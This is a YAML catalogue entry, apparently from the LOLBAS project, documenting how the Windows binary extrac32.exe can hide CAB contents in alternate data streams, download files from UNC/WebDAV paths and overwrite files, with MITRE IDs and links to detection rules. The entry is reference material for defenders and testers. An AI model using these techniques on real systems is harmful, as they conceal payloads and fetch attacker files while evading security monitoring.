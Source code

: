 ```yaml
---
Name: Extrac32.exe
Description: Extract to ADS, copy or overwrite a file with Extrac32.exe
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: extrac32 {PATH_ABSOLUTE:.cab} {PATH_ABSOLUTE}:file.exe
    Description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: extrac32 {PATH_ABSOLUTE:.cab} {PATH_ABSOLUTE}:file.exe
    Description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Type: Compression
  - Command: extrac32 /Y /C {PATH_SMB} {PATH_ABSOLUTE}
    Description: Copy the source file to the destination file and overwrite it.
    Usecase: Download file from UNC/WEBDav
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32.exe /C {PATH_ABSOLUTE:.source.exe} {PATH_ABSOLUTE:.dest.exe}
    Description: Command for copying file from one folder to another
    Usecase: Copy file
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\extrac32.exe
  - Path: C:\Windows\SysWOW64\extrac32.exe
Detection:
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_extrac32_ads.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://twitter.com/egre55/status/985994639202283520
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Hai Vaknin(Lux
    Handle: '@VakninHai'
  - Person: Tamir Yehuda
    Handle: '@tim8288'
---
```

